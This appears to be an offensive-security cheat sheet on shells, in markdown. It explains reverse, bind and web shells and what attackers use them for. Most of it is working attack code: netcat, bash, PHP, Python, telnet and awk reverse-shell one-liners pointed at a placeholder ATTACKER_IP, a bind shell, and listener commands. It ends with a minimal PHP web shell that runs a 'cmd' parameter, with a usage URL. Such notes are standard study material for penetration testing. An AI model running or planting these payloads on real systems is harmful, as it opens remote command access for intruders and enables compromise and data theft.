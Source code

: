 # Shells Overview

## What is a Shell?
A shell is software that allows a user to interact with an OS, commonly a command-line interface. In cybersecurity, it refers to a session used by attackers to remotely control a compromised system.

## Attackers Use Shells for:
- **Remote System Control**: Execute commands/software remotely.
- **Privilege Escalation**: Gain higher access.
- **Data Exfiltration**: Copy sensitive data.
- **Persistence**: Create backdoor access.
- **Post-Exploitation**: Deploy malware, hide accounts.
- **Pivoting**: Move through the network.

---

## **Reverse Shell**
A reverse shell connects from the target machine to the attacker's machine, bypassing firewalls.

### **How Reverse Shells Work**
1. **Set up a Netcat listener**  
   ```sh
   nc -lvnp 443
   ```
2. **Execute Reverse Shell Payload on Target**
   ```sh
   rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
   ```

---

## **Bind Shell**
A bind shell opens a listening port on the target machine, allowing the attacker to connect.

### **Bind Shell Setup on Target**
```sh
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
### **Attacker Connects**
```sh
nc -nv TARGET_IP 8080
```

---

## **Alternative Shell Listeners**
- **Rlwrap**: Enhances Netcat interaction  
  ```sh
  rlwrap nc -lvnp 443
  ```
- **Ncat (Netcat Upgrade)**  
  ```sh
  ncat -lvnp 4444
  ```
  With SSL:  
  ```sh
  ncat --ssl -lvnp 4444
  ```
- **Socat**: Flexible socket utility  
  ```sh
  socat -d -d TCP-LISTEN:443 STDOUT
  ```

---

## **Common Reverse Shell Payloads**

### **Bash**
```sh
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

### **PHP**
```php
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```

### **Python**
```python
python -c 'import socket,os,pty;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

### **Other Methods**
- **Telnet:**  
  ```sh
  TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF
  ```
- **AWK:**  
  ```sh
  awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
  ```

---

## **Web Shells**
A web shell is a script that allows attackers to execute commands via a web server.

### **Simple PHP Web Shell**
```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
**Usage Example:**  
Accessing the shell through the browser:  
```
http://victim.com/uploads/shell.php?cmd=whoami
```

### **Popular Web Shells**
- **p0wny-shell**: Minimal PHP shell.
- **b374k shell**: Feature-rich PHP shell.
- **c99 shell**: Robust PHP shell.

